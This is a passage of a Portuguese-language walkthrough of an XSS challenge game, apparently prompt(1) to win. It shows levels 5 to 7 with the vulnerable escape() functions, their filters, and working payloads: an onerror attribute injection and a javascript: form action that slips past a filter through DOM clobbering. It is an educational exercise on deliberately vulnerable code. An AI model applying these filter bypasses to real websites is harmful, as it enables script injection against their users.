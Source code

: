 Resposta ```"type=image src onerror
="prompt(1) ```

Utilizamos quebras de linha para separar atributos, encerrando `value="` e injetando `type="image"`, `src vazio` e `onerror="prompt(1)"` em linhas distintas.


## level 6
```javascript
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}                         
```
Filtro: bloqueia URIs `javascript:`, `vbscript:`, `data:` em `action`.

Resposta:  ```javascript:prompt(1)#{"action":1}```

Usamos a técnica de DOM clobbering: ao passar `{"action":1}` via JSON, criamos um `<input name="action">`, sobrescrevendo `form.action` para algo seguro que passe no teste e dispare `prompt(1)`.

## level 7
```javascript
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}       
```
Filtro: Divide em segmentos por `#`, limita cada segmento a 12 caracteres e envolve em `<p title="…">`.
